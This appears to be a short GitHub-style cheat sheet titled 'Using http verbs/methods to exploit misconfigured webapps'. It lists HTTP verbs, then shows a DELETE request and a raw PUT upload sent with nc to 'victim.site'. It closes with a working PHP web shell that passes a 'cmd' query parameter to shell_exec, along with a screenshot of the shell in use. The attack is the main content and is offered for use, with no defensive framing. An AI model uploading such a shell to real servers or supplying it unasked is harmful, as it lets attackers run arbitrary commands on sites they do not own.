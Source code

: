 # Using http verbs/methods to exploit misconfigured webapps:

### Verbs:
- `HEAD` (used to get the response headers)
- `GET` (used to request resources like web pages, images)
- `POST` (used to submit html form data)
- `PUT` (used to upload a file to the server)
- `DELETE` (used to remove a file from the server)
- `OPTIONS` (used to check the web server for enabled http verbs)


### Exploit DELETE verb:
- `DELETE /path/to/resource.txt`

### Exploit PUT verb:
you have to know the size of the file you want to upload on the server.
for that we can use the unix utility `wc`.

Command: `wc -m payload.php`
Response: `20 payload.php`
```http
$ nc victim.site 80 
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 20

<?php phpinfo(); ?>
```

- Uploading PHP Shell:
```php
<?php 
if (isset($_GET['cmd']))
{
	$cmd = $_GET['cmd'];
	echo '<pre>';
	$result = shell_exec($cmd);
	echo $result;
	echo '</pre>';
}
?>
```

### The PHP Shell in use: 
![Pasted image 20220124080435](https://user-images.githubusercontent.com/33517160/156137337-85b71439-6f42-40df-aec9-8afc7a560913.png)

**By 0xRar**
